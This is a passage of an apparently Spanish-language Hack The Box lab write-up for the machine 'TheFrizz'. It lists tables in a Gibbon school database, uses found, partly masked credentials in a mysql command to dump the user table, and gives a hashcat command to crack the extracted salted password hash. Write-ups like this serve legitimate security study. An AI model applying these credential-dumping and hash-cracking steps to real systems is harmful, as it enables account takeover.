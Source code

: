 ```cmd
gibbonttdaydate
gibbonttdayrowclass
gibbonttdayrowclassexception
gibbonttimport
gibbonttspacebooking
gibbonttspacechange
gibbonunit
gibbonunitblock
gibbonunitclass
gibbonunitclassblock
gibbonunitoutcome
gibbonusernameformat
gibbonyeargroup
```
```cmd
.\mysql.exe -h localhost -u MrXXXXsDB -pXXXXXXXXXXXXXX!?1 -e "USE gibbon; SELECT * FROM gibbonperson;"
```
![alt text](/assets/img/writeups/hackthebox/theFrizz-htb-s7/image-4.png)

En esta utlima parece que tenemos unas credenciales junto con su salt. El tipo de hash es bcrypt, sha256+salt o algo parecido por lo que investigando un poco los hashes podemos formar el hash para hashcat.

```plaintext
067f746faXXXXXXXXXXXXXXXXXXXXXXXXXXXX784242b0b0c03:/aACFXXXXXXXXXXX2489
```

### Crackeando el hash

Ahora podemos cracker el hash con hashcat.

```bash
❯ hashcat -m 1420 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
